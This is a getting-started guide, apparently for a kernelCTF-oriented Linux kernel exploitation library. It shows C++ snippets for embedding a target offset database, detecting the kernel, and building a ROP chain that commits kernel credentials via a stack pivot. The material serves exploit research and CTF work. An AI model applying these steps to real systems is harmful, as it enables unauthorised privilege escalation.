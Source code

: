 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <cassert>
    #include <target/TargetDb.cpp>
    #include <test/kpwn/Kpwn.cpp>
    #include <util/incbin.cpp>
    #include <util/syscalls.cpp>
    #include <util/error.cpp>
    #include <util/pwn_utils.cpp>
    #include <payloads/Payload.cpp>
    #include <util/HexDump.cpp>
    #include <util/ArgumentParser.cpp>
    #include <pivot/PivotFinder.cpp>
    #include <pivot/StackPivot.cpp>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kpwn");
    ```

3. Initialize **TargetDb**:

    ```c++
    TargetDb kpwn_db(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kpwn_db/converter/config.py`. 
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kpwn_db.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128,
                {{"dump", 64, 8},
                {"type", 120, 8}});

    kpwn_db.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as it's a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kpwn_db.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

Once built, the `payload` object contains the complete, ready-to-use exploit payload.
